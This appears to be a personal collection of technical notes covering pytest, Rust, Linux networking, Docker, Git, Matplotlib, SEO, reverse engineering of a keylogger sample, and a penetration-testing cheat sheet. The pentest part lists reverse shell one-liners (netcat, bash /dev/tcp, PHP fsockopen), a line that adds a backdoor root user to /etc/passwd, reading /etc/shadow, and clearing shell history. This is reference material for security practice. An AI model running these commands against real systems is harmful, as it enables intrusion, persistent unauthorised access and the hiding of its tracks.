pass
@pytest.mark
Run test by markers: pytest.mark.<name>
pytest -m <marker>
pytest.mark.parametrize
Run a test again multiple sets of argument
@pytest.mark.parametrize("i,j,o",[(5,5,10),(3,5,12)])
def test_add(i,j,o):
assert i+j == o,"failed"
@pytest.raises
We expect to have an error. @pytest.raises(ValueError)
Command line options
-s # display prints
-pytest-randomly # run tests in a random order
-pytest-cov # compute code coverage at the same time
Rust
Things to know
- no variadic functions (unknown number of parameters), except for macros
println!(...). dbg!()allows to debug an expression and also returns the result-
#![allow(unused)] fn main() { let a = dbg!(5+1)+8; println!("{a}"); }
-
Good practice
Build
By default, binaries are compiled in unwind mode which raises the call stack. Using abort allows to have smaller binaries but the Drop is not done (memory not cleared).
[profile.release]
panic = 'abort'
Performing a panic in a panic is equivalent to an abort, it is a bad practice.
Linters
- Clippy: A collection of lints to catch common mistakes and improve your Rust code.
- miri: An interpreter for Rust's mid-level intermediate representation.
- valgrind: detect many memory management and threading bugs, and profile your programs in detail.
- cargo-geiger: Detects usage of unsafe Rust in a Rust crate and its dependencies.
Deepfake audio
flowchart LR
A{{Reference sound extract}}-->B[Voice encoder]--Footprint of the voice -->E
C{{Text extract}}-->D
subgraph Synthesizer
D[Encoder]-->E[Concat]-->F[Attention]-->G[Decoder]
G-->F
end
G--Mel-Spectrogram -->H[Vocoder]-->I{{Audio Signal}}
- Creation of a "footprint" of the person's voice using the encoder
- Adding this footprint to the synthesizer which translates any text into a mel-spectrogram. The synthesizer produces the general mechanisms of speech and with the addition of the footprint, we can say that the spectrogram also contains the nuances of the person's voice.
- The mel-spectrogram is interpreted by the vocoder which translates it into an audio signal that we can listen to.
Source: Transfer Learning from Speaker Verification to Multispeaker Text-To-Speech Synthesis
Transfer learning
Transfer learning corresponds to a redirection of trained models for one use to another use.
Neural networks are made of 2 blocks
- the one building the features
- the one using the features for classification/regression purposes
Starting from such a neural network, one of the possibilities offered to the user to transfer the knowledge acquired during the training for a given problem to another problem consists in keeping the layers generating the features and re-training the layers doing the classification.
Linux
Namespace
This is the basis of docker. It allows you to simulate a network on your machine.
ip netns
ip netns add <NAME>
ip netns exec <NAME> <COMMAND> # execute a command in another namespace
Mount/Unmount
following commands must be run as root
fdisk -l # view the disk and the partition
/dev/sd? -> physical disk
/dev/sda? -> partitions on the sda disk
Mounting on /mnt/data
mkdir -p /mnt/data # create an empty dir
parted -l # determine the filesystem type
mount -t <ext4> /dev/sd /mnt/data
Unmounting
The argument is either the mount point or the name of the disk
umount /dev/sdb
umount /mnt/data
Shell redirection
/dev/null # empty, import anything, it will disappear
/dev/zero # endless zeros
/dev/urandom # endless random numbers
/dev/full # file that always returns the error code ENOSPC (No space left on device)
# following ones are links to the kernel file descriptor
/dev/stdin # standard input stream # 0
/dev/stdout # standard output stream # 1
/dev/stderr # standard error output stream # 2
Redirects
By default, it redirects stdout.
>is an overwrite method>>is an append method
Following lines are equivalent
echo "Hello, World!" > file.txt
echo "Hello, World!" 1> file.txt
>&is the syntax for redirecting the stream to a file descriptor.
# redirecting stderr to stdout
ls file-that-does-not-exist 2>&1 # if no '&' the file named "1" will be created
Redirect stdout and stderr to the same place
ls -la /tmp /dir-that-does-not-exist 1>file.txt 2>&1
cat file.txt
Command line tips
Self-signed certificate
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes
awk
From timestamp to human readable date
TZ=Ameria/Los_Angeles awk '/path to look for/' { print strftime ("%T", $1), $3, $7} file.log
Creating large files from your terminal
The dd command will create a sparse file.
dd if=/dev/urandom of=your-filename bs=2G count=1
# bs = block size (1M = 1024Mb)
# count = number of blocks
The fallocate command will not create a sparse file, which means it is much faster.
fallocate -l 1G your-filename
Traffic control - TC
tc must be run as root
qdiscs (queuing discipline - modify the scheduler) buffer between the protocol stack and the network interface. By default, it uses a FIFO approach.
filter determines which classful qdisc a packet should be enqueued to. (Can qualify the packet based on things like: source/destination/IP...)
classes a class is a sub-qdisc. A class may contains another class. Using classes, we can configure the QoS in more detail.
# delay to the egress (outgoing packets) scheduler
tc qdisc add dev eth0 root netem delay 200ms
# delay = the network property to modify
# netem = network emulator (emulate a WAN property)
Example
$ ping -c 4 google.com
PING google.com ..... 56(84) bytes of data.
64 bytes from ..... : icmp_seq=1 ttl=116 time=9.86 ms
64 bytes from ..... : icmp_seq=2 ttl=116 time=12.2 ms
64 bytes from ..... : icmp_seq=3 ttl=116 time=11.3 ms
64 bytes from ..... : icmp_seq=4 ttl=116 time=10.5 ms
--- google.com ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 8ms
rtt min/avg/max/mdev = 9.859/10.971/12.185/0.870 ms
$ tc qdisc add dev eth0 root netem delay 200ms # add some delay
$ ping -c 4 google.com
PING google.com ..... 56(84) bytes of data.
64 bytes from ..... : icmp_seq=1 ttl=116 time=210 ms
64 bytes from ..... : icmp_seq=2 ttl=116 time=210 ms
64 bytes from ..... : icmp_seq=3 ttl=116 time=211 ms
64 bytes from ..... : icmp_seq=4 ttl=116 time=210 ms
--- google.com ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 7ms
rtt min/avg/max/mdev = 209.870/210.072/210.585/0.546 ms
tc qdisc del dev eth0 root # delete all rules
# instead of del or add, possible values are: show (see what are default rules), change
tc disc change dev eth0 root netem delay 200ms 10ms # +/- 10ms uniform distribution
# instead of delay, possible values are: 'loss 10%' (packet loss of 10%), corrupt, duplicate.
Bandwidth limit
tc qdisc add dev eth0 root tbf rate 1mbit burst 32kbit latency 400ms
# tbf: token buffer to manipulate traffic rates
# rate: sustained max rate
# burst: max allowed burst
# latency: packets with higher latency get dropped
$ iperf -c speedtest.serverius.net -p 5002
------------------------------------------------------------
Client connecting to speedtest.serverius.net, TCP port 5002
TCP window size: 85.0 KByte (default)
------------------------------------------------------------
[ 3] local 192.168.1.15 port 60442 connected with 178.21.16.76 port 5002
write failed: Broken pipe
[ ID] Interval Transfer Bandwidth
[ 3] 0.0- 0.1 sec 84.8 KBytes 12.6 Mbits/sec
$ sudo tc qdisc add dev eth0 root tbf rate 1mbit burst 32kbit latency 400ms
$ iperf -c speedtest.serverius.net p 5002
------------------------------------------------------------
Client connecting to speedtest.serverius.net, TCP port 5002
TCP window size: 85.0 KByte (default)
------------------------------------------------------------
[ 3] local 192.168.1.15 port 43834 connected with 178.21.16.76 port 5002
[ ID] Interval Transfer Bandwidth
[ 3] 0.0-10.3 sec 1.38 MBytes 1.12 Mbits/sec
Exiftool
Rename images to their creation/modification date attributes
exiftool -ext jpg '-FileName<CreateDate' -d %Y%m%d_%H%M%S%%-c.%%e current_filename.jpg
# -d: specify a date format Y=year m=month d=day H=hours M=minutes S=seconds
# %-c: add a counter if multiple images have the same name.
# %%e: keep the extension
exiftool -ext jpg '-FileName<filemodifydate' -d %Y%m%d_%H%M%S%%-c.%%e ./some-directory
# it will execute the command on all images inside the directory
iperf
Tool used to measure the maximum achievable bandwidth on IP networks. More on this: iperf3.
# server side
iperf --server
# client side
iperf --client HOST_IP
iptables
Here are some useful commands for the iptables firewall:
List rules
iptables -L -v
# -v: verbose mode
Reset rules
# Start with empty tables
iptables --flush [chain] # delete all rules in chain or all chains
iptables --delete-chain [chain] # delete a user-defined chain or all chains
IP black listing
iptables -A INPUT -s IP -j DROP
# -A: append a rule to the INPUT chain (incoming traffic)
# you can log all incoming traffic from specific IP
iptables -A INPUT -s IP -j LOG --log-prefix "Blocked IP: "
# deleting a rule blocking traffic from an IP address
iptables -D INPUT -s IP -j DROP
# -D: delete
Accept connection to a specific port
# Accept connection on port 22 using the TCP protocol
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
# if you don't need that port anymore
iptables -D INPUT -p tcp --dport 22 -j ACCEPT
Save current rules
iptables-save > file.txt
Restore rules
iptables-restore < file.txt
DROP vs REJECT
- use
REJECTwhen you want the other end to know the port is closed (e.g. apingwould get aDestination Port Unreachableerror. This indicates the destination was reached but noecho replywas sent back). - use
DROPfor connections to hosts you don't want people to see (e.g. apingwould not get any response at all. The request will time out).
SOCAT - TCP/TLS Proxy
The following commands will redirect traffic incoming on port 7000 to a remote host (127.0.0.1:4444).
TCP Proxy
socat -d TCP-LISTEN:7000,fork,reuseaddr TCP4:127.0.0.1:4444
TLS Proxy
socat openssl-listen:7000,fork,reuseaddr,verify=0,key=./key.pem,cert=./cert.pem openssl-connect:127.0.0.1:4444,verify=0
File system
A file system is a set of rules that manage the way files are stored and retrieved on a disk. It defines how data is written to disk.
Cluster - Allocation unit
This is the smallest allocation unit imposed by the file system. It is made up of multiple sectors (the smallest physical part: ~512 bytes). The cluster is the smallest space a file can occupy on a disk.
For example: if the cluster size is 4 Kb, to store a 10 Kb file, 3 clusters are needed (for a total of 12 Kb). The remaining 2 Kb is lost. The space lost is included in the file size.
External disk
-
FAT32
- Compatible with all major operating systems
- Maximum file size is 4 GB
- Minimum allocation size is 512 bytes
-
ExFAT (enhanced FAT32)
- No file size limit
- Minimum file size for allocation is 4 Kb
-
NTFS
- Proprietary file system developed by Windows
- Free drivers available for Linux
- No file size limit
- Minimum allocation size is 512 bytes (for small volumes)
Default cluster size for NTFS, FAT, and exFAT
Tools
Some cool tools I use/to use
Diagram as code
- Graphviz, dot
- plantUML
- MermaidJs
Leaflet JS
Mobile friendly interactive Maps based on OpenStreetMap. Desktop+Mobile
Create video of a terminal session
(This is just text so you can do CTRL+C & CTRL+V on the video) https://asciinema.org/ To embed the video in Markdown https://github.com/marionebl/svg-term-cli
GoTTY
WebShell TTY
Related
nip.io
Dead simple wildcard DNS for any IP Address.
Stop editing your /etc/hosts file with custom hostname and IP address mappings.
nip.io allows you to do that by mapping any IP Address to a hostname using the following formats:
- Without a name:
- 10.0.0.1.nip.io maps to 10.0.0.1
- With a name:
- app.10.8.0.1.nip.io maps to 10.8.0.1
Asciinema
Create video of a terminal, simple recording, copy & paste, embedding. This is just text so you can do CTRL+C & CTRL+V on the video.
Recording a tmux session
tmux new -s terminal-capture # start a new session
<C-b> + d # detach from the session
asciinema rec -c "tmux attach -t terminal-capture" # record the tmux session
# do your stuff
<C-b> + d # detach from the session to stop recording
Related
- svg-term-cli: Render asciicast to animated SVG
- VHS: Your CLI home video recorder vhs
- peek: Simple animated GIF screen recorder with an easy to use interface.
Flameshot
Powerful yet simple to use screenshot software.
borgbackup
Extremely simple but powerful backup tool (with deduplication support)
Damn Vulnerable Web App
The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficulty, with a simple straightforward interface.
Docker
- Docker volumes
- Manage image size
- Capturing network traffic in a container
- Docker Forensic
- Docker-compose
- To get further
docker images # list images
docker pull <img:tag> # pull a certain image
docker run -it <img:tag> <command> # run a command in a new container (interactively)
docker ps -as # list all containers
docker exec -it <container-id> <command> # run a command in a running container
docker container prune # delete all containers
docker inspect <container-id> # show low-level info on a container
docker commit <container-id> <repository:tag> # create a new image from container changes
# Networks managing: None, Host, Bridge (default)
docker network create --driver <driver> --subnet x.x.x.x/x --gateway x.x.x.x <network-name> # create a new network
docker network connect <network-name> <container-id> [--ip x.x.x.x] # connect a container to a network (and changing the default ip)
docker rmi $(docker images|grep none|awk '{ print $3 }') # remove docker images with tag or name at none
Docker volumes
flowchart TB A[Container]--bind out -->B subgraph B[Filesystem] D[ContainerData] end A--volume -->D A--tmpfs mount -->C[Memory]
docker volume create <volume-name> # create a volume
docker inspect <volume-name> # to get the mount point on the host
docker run -itd --mount src=<volume-name>,target=/some/path --name <container-name-to-create> --rm <image-name> # mount a volume on the container
Manage image size
docker image history <image-name> -notrunc # know the size and layers of an image
Multi-stage Build: allows to reduce the final size of a docker image by performing some operations before creating the final image (e.g. compiling the source code)
Choose your base image:
- alpine
- debian
- scratch
- busybox:glibc (useful if the program is dynamic)
C_GO_ENABLED=0: Go doesn't use system libraries anymore but its own implementations so it becomes static (net and dns for example)
Alpine uses musl but there is the possibility to install build-base
The others use glibc. The 2 are not compatible (i.e. compiling on glibc and running on alpine will not work)
Capturing network traffic in a container
To capture network packets in a container with Wireshark on your host, do the following:
# Get PID of the container
docker inspect --format "{{ State.Pid }}" <container-id>
# Enter the same network name space
ns enter -n -t "<PID>"
# run wireshark
Docker Forensic
-
Dive: exploring image, layer, contents
-
LiME: Linux Memory Extractor
Docker-compose
docker-compose up --build -d # run, build and keep detach
docker-compose stop/down
To get further
- Kubernetes
- Skaffold
- Kustomize
Dockerfile
Multi-stage build
Get a minimalist container simply running a binary. This helps keep the running docker container small while still be able to compile a project needing a lot of dependencies.
# Step 1
FROM golang:alpine3.7 as build-env # Create an alias
COPY main.go /hello/main.go
WORKDIR /hello
RUN env GOOS=linux GOARCH=amd64 go build
# Step 2
FROM scratch
COPY --from=build-env /hello/hello /bin/hello # copy the compiled file from the build-env image
ENTRYPOINT ["/bin/hello"]
docker build -t hello-scratch:v1 . # build your image with the Dockerfile in the current directory
docker images # check you have your newly created image
docker run hello-scratch:v1 # run your image
Official documentation for the multi-stage
Kubernetes
Container orchestrator
- Single API to manage everything
- declarative management model
- no more port conflicts
- stateless and stateful application management with data persistence
- effortless management of rollouts and rollbacks
A Kubernetes cluster contains 2 roles:
master: where the Control Manager (CM), scheduler, API Server → cluster management runsworkers: where our containers run, composed of akubelet,kubeproxy,docker runtime
Try it locally
minikube.sigs.k8s.io/docs
ETCD
Database to store cluster status
Control Manager
Compares the state of the cluster with what is stored in ETCD (application version change, scaling...)
Scheduler
choose the most appropriate cluster node to run the container (available RAM, CPU, disk space...) → Make the application more resilient
Kubelet
launches containers (pods), monitors their status...
Runtime
Example: Docker Runtime,... → client/server to interact with elements
Plugins
- network (Container Network Interface)
- storage (Container Storage Interface)
- authentication
add-ons
DNS server (CoreDNS or kubeDNS)
Pentest on Kubernetes
Kubernetes Goat: Interactive Kubernetes Security Learning Playground
Git
Specific topics
Basic commands
- Cancel last local commit
git reset HEAD~1
-Remove a file from the index without deleting it
git reset HEAD <filename> # does not delete the file but removes it from the index
- Create new branch
git branch <branchName> # locally
# upstream branch
git branch --set-upstream-to=origin/<branchName>
git push -u origin <branchName>
- Merge some commits together
git rebase -i HEAD~X
# X = number of commits to merge
# 1. make your modification
# 2. if commits were already pushed: git push --force
# 3. else: git push
- Unstagged files and change active branch
git stash push -m "message"
git stash list
git checkout <another branch>
git stash pop
- Delete file from git history
git filter-branch --index-filter "git rm -rf --cached --ignore-unmatch <path-to-file>" HEAD
git push -all --force
- Find file in git history
git log --all --full-history -- <path-to-file>
- Apply commits on another branch
git cherry-pick <commit-hash>
- Add & push tags
git tag <tag-name>
git push --tags
- Remove unwanted files that are not tracked by git.
git clean -fd -x
# -x: remove ignored files too
# -X: remove only ignored files
# -n: for dry run
- Use GIT with a GUI
gitk --all
Quickly share your git repository
This is an insecure (but very fast) way of sharing access to your git repository. Use only on a LAN where you know who can access your machine. For a more secure way, use SSH.
Read-only access
On the machine with the repository you want to share.
git daemon --base-path=/path/where/your/repositories/are --export-all --reuseaddr --informative-errors --verbose
# export-all - shares all the repositories in a folder from "–base-path" option
# base-path=. - daemon looks for repositories in a current directory(".")
# reuseaddr - allows to restart server quickly
# informative-errors - provides cleaner error message for clients
# verbose - notifies about each operation with the repository
With the previous example, all git repositories are exported because of the export-all option.
In order to manage which repository you want to share, simply create a git-daemon-export-ok empty file in the repository you want to share (and remove the former option).
On other machines
git clone git://IP/name-of-the-repository-to-clone
Adding push access
To enable push access to your git repository, simply add –enable=receive-pack in your command line.
Before pushing, the client needs to create a new branch and push it to the server. Then you can merge it into the target branch.
Creating aliases
Edit the ~/.gitconfig file by adding the following lines
[alias]
serve = !git daemon --base-path=. --export-all --reuseaddr --informative-errors --verbose
hub = !git daemon --base-path=. --export-all --enable=receive-pack --reuseaddr --informative-errors --verbose
And use the newly created commands:
git serve
# or
git hub
Matplotlib
Representation of cos(x) and sin(x) in [-1;5] with a step of 0.1.
from matplotlib import pyplot as plt
import numpy as np
x = [i for i in np.arange(-1,5.1,0.1)]
cos = [np.cos(i) for i in x]
sin = [np.sin(i) for i in x]
plt.plot(x, cos)
plt.plot(x, sin)
plt.show()
Modify the axis terminals
plt.axis((Xmin, Xmax, Ymin, Ymax))
# or
plt.xlim(min,max)
plt.ylim(min,max)
Change labels
plt.xticks(position, labels, rotation, horizontal_alignment) # x-axis
plt.yticks(position, labels, rotation, vertical_alignment) # y-axes
Adapt the size of the image according to the content
plt.tight_layout()
Change Titles
plt.title() # graphic
plt.x_label() # x-axes
plt.y_label() # y-axes
Everything that is text can be changed
color
fontname
fontsize # size in points
fontweight # bold/normal
style # normal/italic/oblique
Latex # '$...$'
Draw a curve
plot([x-axis...], [ordonnees...])
# optional parameters, if None, then [0, 1, 2, ...]
Display legends. Must be called after all calls to plot()
plt.legend()
Interactive mode (no need to call show()). Display a curve, do other tasks, question the user and update the curve.
Some plot() parameters
color
linestyle (solid, dashed, dashdot, ...)
linewidth
marker
markersize
Change the title of the window (default: 'Figure 1')
plt.gcf().canvas_manager.set_windows.title("New title")
Some examples on Matplotlib
Natural Referencing
The domain name
- avoid
-which are considered as penalizing - it's better without offensive words and easy to spell
- the size of the domain name must be about 9 words
- register your domain name for 1 year or less is characterized as suspicious
- a valid SSL certificate is better
Page construction
- you need keywords related to your site
- the content of the pages must be relevant and organized
- if the speed of loading the page is long ( Ex: images too heavy) your site will be less well referenced
- it is preferable to have a qualitative code
- feature snippets: this is a portion of text that directly answers a question asked in the search engine. Indeed, it is an extract that leads the user to click on the page to get the full content. Try the site Answer The Public to know what people are looking for on Google (could be interested to look for your keywords).
Backlinks
Links that lead to your website. For Google, if a site has many backlinks, it is a popular and quality site. It also takes into account the age of the domain name that makes the incoming link. Indeed, there is a difference between Wikipedia and a site that is a few months old.
It takes into account the link that redirects to your site.
- the complete site (https://your-own-site.com), the complete site is considered of quality
- a specific page of your site (https://your-own-site.com/a/very/specific/page/somewhere/in/your/site), there is only one interesting content.
User loyalty
- The more time they spend on the site, the better.
- Encourage users to comment on content. Many comments involve a topic of interest, so users will return to the site to see the responses (⚠️ to moderation).
Web Scrapping
Frameworks
- BeautifulSoup
- MechanicalSoup
- Scrapy
- Photon → collection of URLs, files, specific data (emails, social networks)
- Puppeteer
Puppeteer
Allows to drive a chromium instance (works with nodejs).
- automate tasks (forms, data monitoring)
- browse web pages (tests, scrapping)
- make screenshots or export web pages to PDF
- capture a chronological trace of a site to diagnose performance problems
- test chrome extensions
- possibility to display the window to follow the navigation
- dev chrome tools →
Recorderallows to record a navigation and extract the puppeteer code.
Reverse Engineering
Static analysis
How to know if a binary is packed
- PEid
- Raw Size and Virtual Size are very different
- Character strings are random.
- Non-standard section names (UPX0, ...)
- Dependency viewer
- Low number of imports
Extract resource section from a binary
- Resource Hacker
- if a binary contains resources (section .rsrc), it's possible to view/extract it with this software).
UPX
UPX, is a tool called packer, used to pack/unpack a binary.
Dynamic analysis
- procmon - monitor the actions performed on the system when malware is launched
- process explorer - obtain information on the process in memory (there may be differences between the binary on disk and what runs in memory - (strings present, DLLs loaded, etc.))
- inetsim - simulate network responses to allow malware to continue executing normally (if in multiple VMs, change
DNS IPandbind_addressto listen on all interfaces, not just local) - wireshark - capture network traffic
- regshot - capture windows registry before and after malware execution
If you need to analyze a DLL, you can execute with cmd.exe using the following command:
rundll32.exe <dll_path>, <exported_func>
A few tips on using IDA
-
to identify a local variable for a function, IDA specifies negative addresses (relative to esp) - otherwise it's an argument.

Some shortcuts
-
Rename what you understand, variables, functions... (keyboard shortcut:
n) -
Add comments (keyboard shortcut:
:) -
jump to a specific line (keyboard shortcut:
g) -
display cross-references (X-ref) (keyboard shortcut:
x)
How to read
mov dest, src
xor edx, edx ; sets edx to 0
Arguments are pushed on the stack, from right to left.
From the windows documentation socket windows documentation
SOCKET WSAAPI socket(
[in] int af,
[in] int type,
[in] int protocol
);

In this socket call, protocol=6, type=1 and af=2.
Quick binary analysis
In the functions tab, we search for the _main function, which is the entry point for our program.

We finally realize that our binary contains a simple if displaying whether it has access to the Internet or not.

The
printffunction is not recognized by IDA, but you can tell it's this function by a quick scan. A call to_stbufand_ftbufis made.

The InternetReadFile function takes a buffer and buffer size as parameters. Here, we push 512 bytes (200h). Except that at declaration time, we notice that the Buffer variable (IDA didn't notice it was an array, so it just says it's a pointer) isn't 512 bytes (difference between Buffer and var_20c).
To modify this interpretation of IDA, move to the Buffer declaration, then ctrl+k.
After modification:

After the InternetReadFile function, the program checks the beginning of the response and look for a specific command so that it knows what to do next.

Valid commands are [a, b, c, d, e]
Dynamically testing commands
Appending a comment in the inetsim fake html page. (The a command should create a directory)

Executing the malware

The new Temp directory is then created

Example of a complete analysis
Static analysis
Loading the file into PEID

List of sections
Here we can see that there are resources inside the binary.
Strings in the binary
The svchost.exe string in a binary is not usual.
Extracting resources
Note that the extracted resource contains a lot of 0x41. Perhaps a xor is performed to hide the resources.
DependencyWalker Imports

Dynamic analysis
Procmon in capture
Regshot 1/2
Before launching the binary, you need to do a first shot with RegShot to get a fingerprint of the Windows registry and see which ones have been modified.

Regshot 2/2
Here we have all registry that have been modified or added during the process execution.
Process explorer
On the process explorer capture, we can see that after we started the malware, a new process called svchost.exe was also started.

Comparing strings
When comparing strings present in the binary and strings present in memory, we can see that they are not the same.
Strings in memory look like keyboard keys. There is also a log file name. Could it be a keylogger?
Execution
During the execution, we can see that the svchost.exe process is created and that nothing is going through the network (the wireshark window stays empty).

While our infected svchost.exe continues to run, let's relaunch procmon and filter on the infected PID. And let's write to a notepad. We can see some operations such as CreateFile, WriteFile, CloseFile...
You can find the path where the registered keyboard keys are located.

Content of the created log file.
Penetration testing - Pentest
Introduction to penetration testing
Definitions:
- Risk assessment: Analysis of services to identify vulnerabilities in systems, applications or processes.
- Penetration testing: Check if the vulnerabilities found are really present or not (false positives).
Recognition
Active research
host [domain_name] # get IPv4 IPv6
whois [domain_name] # allows you to retrieve information about the dns servers used (available ip server, owner name, address)
dig [domain_name] # retrieve DNS addresses. Other information can be retrieved with the -h
dnsenum [domain_name] # retrieve DNS records and Nx server
theharvester -d [domain_name] # recovery of emails, host names
fping/ping # check the presence of a machine on the network
fping -g [network] # gives all the addresses of the network that are reachable
Load Balancing Detection
Load balancing detection is needed to eliminate inconsistency in results. It is very essential to determine the range of IP addresses which should be included in the scope of the test.
When dealing with servers with load balancing, the results of regular tests may vary due to the load balancer in work. Sometimes we may get different IP addresses when we ping the host at different times during a test. This is because a DNS-load balancer might be in place.
A set of techniques for distributing a workload among different computers in a group. These techniques make it possible to respond to an excessive load of a service by distributing it over several servers, and to reduce the potential unavailability of this service that could result from the software or hardware failure of a single server.
lbd
lbd [domain-name] [port,] will check if a domain uses load balancing.
Passive research
whois
- Look for information on a site (available ip server, owner name, address,...). You have to protect your site when you create it (in the params so as not to be visible in the public databases).
- Allows to get information about the DNS servers used
Online Tools
- Exploit DB: simplified google searches, usable sites.
- Company Search: information about a US company
- Web Archive: know the old versions of the sites (when the updates took place...)
- Shodan.io: search for objects connected to the Internet with a visible IP address (server, camera, printers...)
Scanning
Machine enumeration
fping/ping # check for the presence of a machine on the network
fping -g [local network] # give all the local network addresses that are reachable
for i in {1..254}; do ping-c 1 -w 1 X.X.X.$i |grep from; done
nmap: open source port scanner (graphical → zenmap)
nmap -sV -p- [ip] # scan a machine
nmap @network/mask # scan a network
-p 80,443,8080 # check specific ports
-F # fast scanning (fewer ports scanned)
--exclude @IP # exclude an IP to scan
-sP # IP to know if the network address or hosts are up or down (MAC address is given if up)
-sV # service version detection
-O # operating system detection
-v # verbose or -vv
-A # aggressive scan (OS, script, traceroute) open ports, services, version --> when you don't care how 'loud' you are
-Pn # if I don't want to ping the host
--script vuln # if I want to run all scripts out of the vulnerability category
# all categories: https://nmap.org/book/nse-usage.html
# Timing template. (increase the speed your scan runs at) - /!\ higher speeds are noisier, and can incur errors!
-T5
#### Ping sweep ####
-sn [networkIp]/[mask] # to obtain a map of the network structure.
#### SAVE THE OUTPUT ####
-oA # three major formats
-oN # normal format
-oG # Grepable format
-oX # output in xml format
xsltproc filename.xml -o filename.html # You can open an easy-to-read summary in the browser.
# Gets help on all http scripts
--script-help "http-*"
rustscan -a [ip] -- [nmap_arguments]
nessus # reports potential weaknesses on the tested machines (to be downloaded from tenable)
/etc/init.d/nessusd start # start nessus
http://localhost:8834 # access to nessus + register on tenable for an activation code
Website Scanner
nikto -h [url]
wapiti
gobuster vhost -w [subdomains_list] -u [url] # look for subdomains
feroxbuster -w [wordlist_path] -x php,html,txt -u [url] # look for hidden files or directories
dirbuster
wfuzz -z file,[wordlist_path] -d "[param]=FUZZ&[param]=FUZZ" --hc 302 [url] # Fuzz parameters
URL/.git/
wget --mirror -I .git [url]/.git/
git checkout -- # if some files have been deleted, get them back
git log
git checkout [LOG-ID] # go back to a previous commit
git log --all --full-history
git show [COMMIT-ID]
git log --stat
Some automated scripts to investigate deeply. + script export.sh: Use this script to get all the history of a given file. + git-dumper: tool to dump a git repository from a website. + git-tools: A repository with 3 tools for pwn'ing websites with .git repositories available. + githacker: A Git source leak exploit tool that restores the entire Git repository, including data from stash, for white-box auditing and analysis of developers' mind.
Exploit (Gaining Access)
Definitions
horizontal elevation = get the privileges of a user in the same circle of use
vertical elevation = get the most advanced privileges (root/administrator)
Reverse Shell
Shell upgrading
/usr/bin/script -qc /bin/bash /dev/null # works almost all the time
python3 -c 'import pty;pty.spawn("/bin/bash")' # only if python is installed
Shell Stabilization
export TERM=xterm # this will give us access to term commands such as clear
Ctrl + Z # background the shell
stty raw -echo; fg # This does two things: 1. it turns off our own terminal echo (which gives us access to tab autocompletion, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
Write multiple lines in a file with echo
echo "line 1
line 2" >> file.txt
BASH reverse shell one line
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip] 4444 >/tmp/f
bash -c "bash -i >& /dev/tcp/[ip]/4444 0>&1" # possibility not to use 'bash -c' at the beginning
nc [IP] [PORT]
php -r '$sock=fsockopen("[IP]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");'
Persistence (Maintaining Access) - Privilege Escalation
After the elevation of privileges phase, comes the establishment of a constant access to the target (backdoor, persistence module...).
echo "root2:`openssl passwd toor`:0:0:root:/root:/bin/bash" >> /etc/passwd # to create another root user
User information gathering
Once we have a shell on the victim, we can get a lot of information about the target with the following commands
Linux
# DNS configuration
cat /etc/resolv.conf
# configuration file containing details about user accounts
cat /etc/passwd
# stores the hashed passphrase for Linux user account
cat /etc/shadow
whoami # Display the username associated with the current effective UID.
who -a # Display information about all connected users.
ip a # shows (IPv4 or IPv6) addresses on a device.
iptables -L # List all firewall rules.
# displays the routing table
ip r
netstat -r
# displays systems information
uname -a
ps aux
# List packages matching given pattern.
dpkg -l <pattern> list | grep installed
Windows
ipconfig /all
ipconfig /displaydns
netstat -bnao
netstat -r
net view
net view /domain
net user /domain
net user %username% /domain
net accounts
net localgroup administrators
net group "Domain controllers" /domain
net share
Linux Privilege Escalation
sudo -l # checks current privileges
cat /etc/sudoers.d/[filename]
netstat -ltupn # listening ports
ss -tulw # listening ports
cat /etc/crontab # checks cronjob
FIND
find / -iname "*config*.php" 2>/dev/null # looking for config files - cat [filename] | grep -i "db_"
find / -user root -perm -u=s 2>/dev/null # Find all files/dirs that are owned by root and have at least the SUID permission
find / -group [name] 2>/dev/null # Find all files/dirs owned by a group
find / -user [username] 2>/dev/null # Find all files/dirs owned by a user
-perm 444 # exactly readable by everyone
-perm /444 # only readable by everyone
-exec [command] [option] {}\; 2>/dev/null # {} corresponds to the files returned by the find command
Capabilities
getcap -r / 2>/dev/null # scan the system for capabilities.
GREP
grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" # grep ip addresses from your output.
grep -rni "somethingToLookFor" / 2>/dev/null
Port forwarding
# on the attacker
cd /path/where/chisel/is # binary file
updog # or any other command to setup an http server
# on the victim
wget IP:PORT/chisel
chmod +x chisel # set it executable
# on the attacker
chisel server --reverse --port 9002 # port forwarding
# on the victim
./chisel client YOUR_IP:9002 R:9001:[redirectedIP]:[redirectedPort]
# Now you have access on the attacker's machine to : localhost:9001
Using SSH
ssh -N user@[IP_distant] -L [@_redirection_machine]:[port_redirection]:[IP_redirigee]:[port_redirige]
Example:
ssh -N user@10.10.10.10 -L 127.07.0.1:4441:192.168.0.100:80
On the 10.10.10.10 machine, user is running a web server on its 192.168.0.100:80 interface. Here, we're redirecting to the 127.0.0.1 address and port 4441. So from the browser, http://127.0.0.1:4441 is reachable. By specifying a proxy on 172.17.0.2:4440, it is possible to modify the requests on Burpsuite if needed.
Automated scripts for linux privesc
wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh
curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh;chmod 700 lse.sh
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh;chmod 700 les.sh
LinPEAS - Linux Privilege Escalation Awesome Script
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -Lo lPEAS.sh;chmod 700 lPEAS.sh
Clearing Tracks
Basic shell commands
history -c # c=clean: clears the history for the current shell
echo > ~/.bash_history # deletes the content of the user .bash_history
Useful commands
HTTP ServerOne line
python -m SimpleHTTPServer 8000 # Python 2.x
python -m http.server 8000 # Python 3.x
updog # pretty interface
Steganography
Find images information
identify -verbose
pngcheck [image]
zsteg [image] # detects stegano data hidden in PNG & BMP
steghide extract -sf [filename]
stegseek [file] [wordlist] # bruteforce steghide passphrase
Web
Attaque SQL
